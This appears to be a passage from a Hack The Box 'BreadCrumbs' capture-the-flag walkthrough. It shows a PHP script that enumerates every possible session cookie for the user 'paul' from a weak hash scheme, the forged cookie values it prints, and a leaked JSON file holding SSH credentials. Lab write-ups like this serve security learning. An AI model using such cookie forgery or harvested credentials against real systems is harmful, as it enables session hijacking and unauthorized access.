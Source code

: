```bash
    $session_cookie = $username.md5($key);

    return $session_cookie;
}"
```

The session cookie is calculated from the username and adding some static characters and taking a hash. This means the number of possible cookies for a given user is the length of their username minus one as we can see from above.

### Creating/Finding cookies for Paul -

Paul gonna be four character -

```php
<?php
function makesession($username, $seed){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528.\/9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
echo makesession("paul",0);
echo "\r\n";
echo makesession("paul",1);
echo "\r\n";
echo makesession("paul",2);
echo "\r\n";
echo makesession("paul",3);
echo "\r\n";
?>
```

Executing it -

```bash
root@napster:~/Documents/HTB/BreadCrumbs# php cookie.php
paul76af6bfe49dec2b67a6ee399a2e6fbed
paul5a85be61b78600e1e81af105cb377653
paul76af6bfe49dec2b67a6ee399a2e6fbed
pauld78f5990e1f882f0d9c2fb6947dee56d
```

### Trying to login via above cookies -




### Creds for ssh -

```bash
{
        "pizza" : "margherita",
        "size" : "large",
        "drink" : "water",
        "card" : "VISA",
        "PIN" : "9890",
        "alternate" : {
                "username" : "juliette",
                "password" : "jUli901./())!",
        }
}
```
